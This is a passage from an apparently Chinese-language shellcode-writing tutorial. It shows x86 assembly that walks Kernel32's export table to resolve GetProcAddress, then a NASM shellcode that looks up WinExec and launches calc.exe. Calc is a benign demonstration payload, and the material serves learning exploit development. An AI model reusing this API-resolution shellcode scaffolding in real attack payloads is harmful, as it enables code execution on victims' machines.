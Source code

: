 ```bash
            jnz Get_Function
    mov esi, [edx + 0x24]                ; ESI =  ordinals
    add esi, ebx                         ; ESI = Ordinals table
    mov cx, [esi + ecx * 2]              ; Number of function
    dec ecx
    mov esi, [edx + 0x1c]                ;  address table
    add esi, ebx                         ; ESI = Address table
    mov edx, [esi + ecx * 4]             ; EDX = Pointer()
    add edx, ebx                         ; EDX = GetProcAddress
    mov eax,edx
    add esp,0x40
    mov esp,ebp
    pop ebp
    ret
```

OK，接下来，写一个执行操作系统命令的Shellcode，并使用NASM编译，VS Link进行链接。

首先，执行操作系统命令的API是[WinExec](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-winexec) ：

```c

UINT WinExec(
  [in] LPCSTR lpCmdLine,
  [in] UINT   uCmdShow
);
```

![](https://images.payloads.online/2022-02-16-17-31-35.png)

在Kernel32.dll中导出，那这就容易多了。

```c
; exec_calc.asm

global Start

section .data

section .text

Start:
    push ebp
    mov ebp, esp
    sub esp, 0x12
    call GetKernel32BaseAddr
    mov dword [ebp-4],eax ; Kernel32.dll Base Addr
    push eax
    call GetProcAddrFuncAddr
    mov dword [ebp-8],eax ; GetProcAddress
    push 0x00636578 ; xec,0x00
    push 0x456e6957 ; WinE
    push esp
    push dword [ebp-4] ; [ebp-4] -> Kernel32.DLL Base Addr
    call dword [ebp-8] ; [ebp-8] -> GetProcAddress Addr
    push 0                ; WinExec uCmdShow
    push 0x6578652e       ; exe. : 6578652e
    push 0x636c6163       ; clac : 636c6163
    push esp
    call eax
    nop
    nop
    add esp,0x12
    mov esp,ebp
    pop ebp
```